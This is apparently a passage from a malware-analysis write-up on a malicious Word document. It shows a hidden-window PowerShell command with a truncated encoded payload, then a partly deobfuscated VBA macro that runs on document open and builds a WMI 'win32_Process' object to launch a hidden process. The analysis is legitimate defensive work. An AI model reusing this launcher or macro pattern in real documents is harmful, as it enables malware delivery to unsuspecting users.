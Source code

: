 ```sh
POwersheLL -windowstyle hidden -ENCOD                 IPAABYTKAYFzYXApIyAdAxgDAfDLArAVeDgGBuYtAHCyAwAYKTAzBdbTAuFxQuAVeaQvBkQeAYGuUgAxXmQCAkoPArCsIgANeMwnAlynAWHd0IAZebwQAjwhAfHN0hAreVwWAC0XApHK0bARekwmAOzlAbHV0yAXeqwbAYxCAqHU0cAHIXglAitVAmGLYfAaIMAgASnWApGrUNAlJQwwAksDAlCxcbACcfgHBtFpAKEOMmAUdXAwBLvZAQHkIYAcWUQDARnlACCxwFAlJjwFBzzFAeFRkLATcgwUBb0eAgCYcIAyLbAKADnWAtCF4XAaStQxBHPyAnCe4CAtZpAOBtJuAxCdcDALLJAFAmngArED0pAyJwwqAHpsAvCuA...
```
However, this time I'm not scared, as this looks just another base 64 script. I try to decode it, but without success. After all, the encoded portion of this powershell command goes on for 18k characters. There should be something missing.

## Deobfuscating the macros
Since my "replace" approach failed, I suppose the only thing left to do is deobfuscating the macros. To do so, I use the following criteria:
1. Determine how many functions a function calls, and how many times it is called. Delete the functions that are never called, then start from the shortest and simplest function.
2. For each function, find the return value, and backtrack from there. If a variable appears in the computation of the return value, see how it's computed. Discard everything else.
3. Ignore every variable whose name appears only once.
4. Explicit string values.
5. When everything starts to make sense, *__rename!!__*

After some time, the VBA code looks like this:
```vb
----------------------------------------------------------------
VBA MACRO Dw75ayd2hpcab6.cls 
in file: emo.doc - OLE stream: 'Macros/VBA/Dw75ayd2hpcab6'
----------------------------------------------------------------
Private Sub Document_open()
    Get4ipjzmjfvp.MAIN
End Sub

Function REPLACE_WRAPPER(string)
    REPLACE_WRAPPER = Replace(string, "][(s)]w", "")
End Function

----------------------------------------------------------------
VBA MACRO Get4ipjzmjfvp.frm 
in file: emo.doc - OLE stream: 'Macros/VBA/Get4ipjzmjfvp'
----------------------------------------------------------------
' called when the document is opened
Function MAIN()
    On Error Resume Next
    'get some document content (TODO)
    sss = Dw75ayd2hpcab6.StoryRanges.Item(1)

    p1 = "][(s)]wro][(s)]w][(s)]wce][(s)]ws][(s)]ws][(s)]w" + ""
    p2 = "][(s)]w][(s)]w:][(s)]ww][(s)]win][(s)]w][(s)]w3][(s)]w2][(s)]w_][(s)]w" + ""
    p3 = "][(s)]w][(s)]ww][(s)]wi][(s)]wnm][(s)]w][(s)]wgm][(s)]wt][(s)]w][(s)]w" + ""
    S = ChrW(wdKeyS)   'S
    string = p3 + S + p2 + Get4ipjzmjfvp.Fwder3b7t4tqrecw + p1
    'string = ][(s)]w][(s)]ww][(s)]wi][(s)]wnm][(s)]w][(s)]wgm][(s)]wt][(s)]w][(s)]wS][(s)]w][(s)]w:][(s)]ww][(s)]win][(s)]w][(s)]w3][(s)]w2][(s)]w_][(s)]w][(s)]wP][(s)]w][(s)]wro][(s)]w][(s)]wce][(s)]ws][(s)]ws][(s)]w
    replaced_str = REPLACE(string)
    'replaced_str = winmgmtS:win32_Process
    Set win32_Process = CreateObject(replaced_str)
    cut_sss = Mid(sss, 5, Len(sss))
    'cut_sss = sss[4:]
    string = "" + replaced_str + S + Get4ipjzmjfvp.Mvskm12if9c843w3 + Get4ipjzmjfvp.Cn8r2cg8i626ztt
    'string = winmgmtS:win32_ProcessS][(s)]wtar][(s)]w][(s)]wtu][(s)]w

    'call CREATE_AND_HIDE(winmgmtS:win32_ProcessS][(s)]wtar][(s)]w][(s)]wtu][(s)]w][(s)]wP][(s)]w)
    'it would be winmgmtS:win32_ProcessStartuP, but replace is not called idk
```